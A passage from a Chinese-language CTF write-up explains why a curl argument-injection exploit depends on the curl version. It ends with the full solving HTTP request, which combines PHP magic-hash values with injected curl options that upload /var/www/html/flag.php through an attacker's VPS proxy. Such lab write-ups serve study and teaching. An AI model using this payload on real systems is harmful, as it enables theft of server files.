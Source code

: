 这里应该是和 **curl** 版本有关系，我在 **7.54.0 ** 下没有测试成功。

![21](7.png)

题目中的 **curl** 版本是 **7.19.7** 

![22](8.png)

根据猜测，可能在是新版本中，先会执行 **curl http** 的操作，但是由于在后面增加了,例如 **http://127.0.0.1，** 但是curl无法找到这样的文件，出现404。出现404之后，后面的提交文件的操作就不进行了，程序就退出了。这样在vps上面就无法接受到文件了。

### 解题payload：

所以这题最后的 **payload** 是这样的。

```http
POST /index.php?flag=QNKCDZO&hongri=s878926199a&url=http://baidu.com/' -F file=@/var/www/html/flag.php -x  vps:9999 HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=om11lglr53tm1htliteav4uhk4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

_GET[flag]=QNKCDZO&_GET[hongri]=s878926199a&_GET[url]=http://baidu.com/' -F file=@/var/www/html/flag.php -x  vps:9999
```
